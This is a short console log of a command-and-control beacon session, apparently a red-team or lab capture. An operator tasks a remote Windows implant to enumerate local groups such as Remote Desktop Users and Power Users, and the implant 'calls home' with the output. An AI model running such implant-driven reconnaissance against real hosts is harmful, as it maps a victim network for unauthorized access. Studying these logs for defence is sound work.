 ```


[10/06 16:38:58] beacon> shell net localgroup "*Remote Desktop Users"
[10/06 16:38:58] [*] Tasked beacon to run: net localgroup "*Remote Desktop Users"
[10/06 16:39:03] [+] host called home, sent: 69 bytes
[10/06 16:39:03] [+] received output:
The syntax of this command is:



NET LOCALGROUP

[groupname [/COMMENT:"text"]] [/DOMAIN]

              groupname {/ADD [/COMMENT:"text"] | /DELETE}  [/DOMAIN]

              groupname name [...] {/ADD | /DELETE} [/DOMAIN]




[10/06 16:39:16] beacon> shell net localgroup "Remote Desktop Users"
[10/06 16:39:16] [*] Tasked beacon to run: net localgroup "Remote Desktop Users"
[10/06 16:39:18] [+] host called home, sent: 68 bytes
[10/06 16:39:19] [+] received output:
Alias name     Remote Desktop Users

Comment        Members in this group are granted the right to logon remotely



Members



-------------------------------------------------------------------------------

The command completed successfully.




[10/06 16:39:37] beacon> shell net localgroup "Power Users"
[10/06 16:39:37] [*] Tasked beacon to run: net localgroup "Power Users"
[10/06 16:39:39] [+] host called home, sent: 59 bytes
[10/06 16:39:39] [+] received output:
Alias name     Power Users

Comment        Power Users are included for backwards compatibility and possess limited administrative powers



Members



-------------------------------------------------------------------------------

The command completed successfully.



```
